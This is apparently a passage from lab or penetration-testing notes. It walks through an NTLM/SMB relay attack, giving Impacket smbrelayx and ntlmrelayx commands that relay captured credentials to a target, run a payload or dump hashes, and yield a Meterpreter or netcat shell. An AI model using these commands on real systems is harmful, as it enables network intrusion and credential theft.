



4. start the script smbrelayx OR ntlmrelayx
Smbrelayx.pyNow that we have set everything with the previously steps we can run smbrelayx.py:
python3 /home/kali/bin/impacket/examples/smbrelayx.py -h <TargerIP_Server> -e /home/stduser/smbexp.exe
→ Host to relay the credentials to, if not it will relay it back to the client
-e <file> → File to execute on the target system. If not specified, hashes will be dumped (secretsdump.py must be in the same directory)
 Ntlmrelayx.pypython3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t 172.16.23.100 -smb2support -e smbexp.exe
Now we should have got a Meterpreter shell
or a netcat shell
Now that we have got the shells we can close the Respnder and the Relay (ntlmrelayx or smbrelayx